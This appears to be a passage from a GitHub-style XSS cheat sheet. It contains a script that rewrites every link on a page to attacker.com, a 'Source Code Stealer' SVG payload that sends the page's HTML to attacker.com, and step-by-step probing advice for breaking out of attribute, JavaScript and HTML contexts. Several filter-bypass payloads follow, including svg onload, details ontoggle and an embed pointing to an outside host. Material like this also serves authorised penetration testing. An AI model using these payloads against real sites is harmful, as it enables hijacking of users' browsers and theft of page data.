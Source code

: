 
### Awesome Exploits
##### Replace all links
```javascript
Array.from(document.getElementsByTagName("a")).forEach(function(i) {
  i.href = "https://attacker.com";
});
```
##### Source Code Stealer
```html
<svg/onload="(new Image()).src='//attacker.com/'%2Bdocument.documentElement.innerHTML">
```
A good compilation of advanced XSS exploits can be found [here](http://www.xss-payloads.com/payloads-list.html?a#category=all)

### Awesome Probing
If nothing of this works, take a look at **Awesome Bypassing** section

First of all, enter a non-malicious string like **d3v** and look at the source code to get an idea about number and contexts of reflections.
<br>Now for attribute context, check if double quotes (") are being filtered by entering `x"d3v`. If it gets altered to `x&quot;d3v`, chances are that output is getting properly escaped. If this happens, try doing the same for single quotes (') by entering `x'd3v`, if it gets altered to `x&apos;`, you are doomed. The only thing you can try is encoding.<br>
If the quotes are not being filtered, you can simply try payloads from **Awesome Context Breaking** section.
<br>For javascript context, check which quotes are being used for example if they are doing
```
variable = 'value' or variable = "value"
```
Now lets say single quotes (') are in use, in that case enter `x'd3v`. If it gets altered to `x\'d3v`, try escaping the backslash (\) by adding a backslash to your probe i.e. `x\'d3v`. If it works use the following payload:
```
\'-alert()//
```
But if it gets altered to `x\\\'d3v`, the only thing you can try is closing the script tag itself by using
```
</script><svg onload=alert()>
```
For simple HTML context, the probe is `x<d3v`. If it gets altered to `x&gt;d3v`, proper sanitization is in place. If it gets reflected as it as, you can enter a dummy tag to check for potential filters. The dummy tag I like to use is `x<xxx>`. If it gets stripped or altered in any way, it means the filter is looking for a pair of `<` and `>`. It can simply bypassed using
```
<svg onload=alert()//
```
or this (it will not work in all cases)
```
<svg onload=alert()
```
If the your dummy tags lands in the source code as it is, go for any of these payloads
```
<svg onload=alert()>
<embed src=//14.rs>
<details open ontoggle=alert()>
```
